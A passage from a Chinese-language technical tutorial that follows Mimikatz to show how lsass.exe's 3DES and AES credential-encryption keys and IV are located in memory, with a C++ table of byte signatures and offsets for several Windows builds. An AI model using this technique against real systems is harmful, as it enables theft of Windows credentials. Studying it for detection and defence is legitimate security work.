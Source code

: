 继续往下可以看到，系统会使用 `BCryptGenRandom()` 函数为密钥缓冲区生成随机数，这意味着每次 lsass.exe 启动时都会生成随机的新密钥。最后由 `BCryptGenerateSymmetricKey()` 函数根据随机生成的密钥缓冲区创建密钥对象，并将句柄赋给 `h3DesKey` 和 `hAesKey`，此句柄用于需要密钥的后续函数，例如 `BCryptEncrypt()` 等。

由于这个两个密钥句柄以及 `InitializationVector` 都是全局变量，因此可以使用 `rip` 相对寻址来定位他们的地址，跟前文中定位那两个全局变量的方法是一样的。获取到句柄后，再根据句柄与指针的关系获取到真正的密钥内容。

参考 Mimikatz，可以将常见系统版本的特征码保存在一个 `KeyReferences[]` 数组中，用来匹配引用 `InitializationVector`，`h3DesKey` 和 `hAesKey` 的指令，如下所示。

```c++
BYTE PTRN_WNO8_LsaInitializeProtectedMemory[] = { 0x83, 0x64, 0x24, 0x30, 0x00, 0x44, 0x8b, 0x4c, 0x24, 0x48, 0x48, 0x8b, 0x0d };
BYTE PTRN_WIN8_LsaInitializeProtectedMemory[] = { 0x83, 0x64, 0x24, 0x30, 0x00, 0x44, 0x8b, 0x4d, 0xd8, 0x48, 0x8b, 0x0d };
BYTE PTRN_WN10_LsaInitializeProtectedMemory[] = { 0x83, 0x64, 0x24, 0x30, 0x00, 0x48, 0x8d, 0x45, 0xe0, 0x44, 0x8b, 0x4d, 0xd8, 0x48, 0x8d, 0x15 };
PATCH_GENERIC KeyReferences[] = { // InitializationVector, h3DesKey, hAesKey
	{WIN_BUILD_VISTA,	{sizeof(PTRN_WNO8_LsaInitializeProtectedMemory),	PTRN_WNO8_LsaInitializeProtectedMemory}, {0, NULL}, {63, -69, 25}},
	{WIN_BUILD_7,		{sizeof(PTRN_WNO8_LsaInitializeProtectedMemory),	PTRN_WNO8_LsaInitializeProtectedMemory}, {0, NULL}, {59, -61, 25}},
	{WIN_BUILD_8,		{sizeof(PTRN_WIN8_LsaInitializeProtectedMemory),	PTRN_WIN8_LsaInitializeProtectedMemory}, {0, NULL}, {62, -70, 23}},
	{WIN_BUILD_10_1507,	{sizeof(PTRN_WN10_LsaInitializeProtectedMemory),	PTRN_WN10_LsaInitializeProtectedMemory}, {0, NULL}, {61, -73, 16}},
	{WIN_BUILD_10_1809,	{sizeof(PTRN_WN10_LsaInitializeProtectedMemory),	PTRN_WN10_LsaInitializeProtectedMemory}, {0, NULL}, {67, -89, 16}},
};
```

以 Windows 10 x64 1903 系统为例，通过扫描下图红色边框标出的 `83 64 24 30 00 48 8d 45 e0 44 8b 4d d8 48 8d 15` 特征码，可以识别出 `lea rdx, ?h3DesKey`、`lea rdx, ?hAesKey` 和 `lea rdx, ?InitializationVector` 指令。在 x86_64 架构上，这些指令使用 `rip` 相对寻址来访问和使用全局变量，下图中的蓝色、绿色和黄色边框标出的字节序列，即为指令所保存的 `h3DesKey`、`hAesKey` 和 `InitializationVector` 相对于当前指令的偏移量（小端序）。
